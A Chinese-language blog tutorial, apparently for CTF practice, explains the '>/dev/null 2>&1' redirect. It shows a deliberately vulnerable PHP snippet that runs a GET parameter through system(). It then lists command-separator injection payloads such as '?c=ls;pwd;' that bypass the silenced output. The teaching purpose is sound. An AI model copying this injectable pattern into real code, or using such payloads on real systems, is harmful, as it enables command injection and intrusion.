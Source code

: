 ```yaml
---
title: 重定向黑洞>/dev/null
date: 2024-05-15 21:53:24
permalink: /pages/ce50e0/
categories:
  - linux
tags:
  - 重定向
author: 
  name: Cola
  link: https://the0n3.top
---
```



# 重定向黑洞

分析`>/dev/null 2>&1`：

- \>：将标准输出重定向
- /dev/null：一个“黑洞”，用于丢弃数据。
- 2>&1：将标准错误（文件描述符2）重定向到标准输出（文件描述符1），即把错误输出和正常输出都导向/dev/null

因此，这个命令的整体效果是，运行命令时，不会在终端上看到任何输出或错误信息。这个技巧常用于需要静默运行的脚本或命令。

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}
```

> system($c." >/dev/null 2>&1");

system执行$c的终端命令 **">/dev/null 2>&1"** 加上这句后，执行命令但无回显

> 在Linux命令行中，分号（;）、竖线（|）、双竖线（||）、和符号（&）以及双与符号（&&）有不同的作用：

在linux终端中，一次是可以执行多个命令的，例如`pwd;ls;`，通过这些分隔符，可以分割多个命令

可以通过拼接，实现类似`cat flag;ls`，拼接到php里后，就是`cat flag;ls >/dev/null 2>&1`，这样第二条命令没有回显，第一条不受影响

```bash
分号（;）：用于分隔多个命令，依次执行每个命令，不管前面的命令是否成功。          例如：?c=ls;pwd;  
竖线（|）：管道符号，用于将一个命令的输出传递给另一个命令作为输入。             # 测试失败
双竖线（||）：逻辑或运算符，用于在第一个命令失败时执行第二个命令。              例如：?c=ls||
和符号（&）：在命令末尾使用表示在后台执行该命令。                              例如：?c=pwd%26
双与符号（&&）：逻辑与运算符，用于只有在第一个命令成功执行后才执行第二个命令。   例如：?c=pwd%26%26  
```


::: tip
请注意：**其中在使用GET传值时，&和&&都需要进行url编码**  
:::


使用GET给$c传值时，加入这些**用于控制终端命令分隔符**的符号，从而绕过linux的输出黑洞